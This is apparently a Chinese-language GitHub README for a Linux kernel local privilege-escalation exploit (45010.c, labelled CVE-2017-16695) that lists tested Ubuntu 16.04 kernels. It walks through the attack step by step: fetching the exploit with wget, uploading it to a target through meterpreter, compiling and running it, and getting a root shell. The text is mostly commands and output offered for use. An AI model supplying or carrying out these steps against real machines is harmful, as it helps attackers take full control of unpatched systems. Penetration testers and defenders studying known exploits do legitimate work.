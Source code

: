 # Privilege-Escalation

## 支持内核列表

- CVE-2017-16695

在以下内核的 Ubuntu 16.04 测试通过：

    4.4.0-31-generic
    4.4.0-62-generic
    4.4.0-81-generic
    4.4.0-116-generic
    4.8.0.0-58-generic
    4.10.0.42-generic
    4.13.0-21-generic

## 使用方法

下面直接演示使用方法:

下载 `45010.c`:
```
wget https://github.com/Jewel591/Privilege-Escalation/blob/master/45010.c
```
    

先检查目标机上是否安装 gcc：

    vir@ubuntu:~$ gcc
    gcc: fatal error: no input files
    compilation terminated.

如果有安装 gcc ，直接上传 45010.c 到目标机器上进行编译(使用 meterpreter 或者其他的方法)：

    meterpreter > upload /home/vir/45010.c /tmp/45010.c
    # 下面进行编译
    gcc 45010.c -o 45010
    # 添加执行权限
    chmod +x 45010
    ./45010
    # 成功提权到 root。
    whoami
    root

![](https://i.loli.net/2020/04/17/sQuxqvOb8GyBNR9.png)

如果目标机没有 gcc 环境，可以在本地进行编译之后上传——尽量使用和目标机发行版本、内核版本完全一致的虚拟机中编译。

## References/Resources

[https://ricklarabee.blogspot.com/2018/07/ebpf-and-analysis-of-get-rekt-linux.html](https://ricklarabee.blogspot.com/2018/07/ebpf-and-analysis-of-get-rekt-linux.html)

[https://www.exploit-db.com/exploits/45010](https://www.exploit-db.com/exploits/45010)
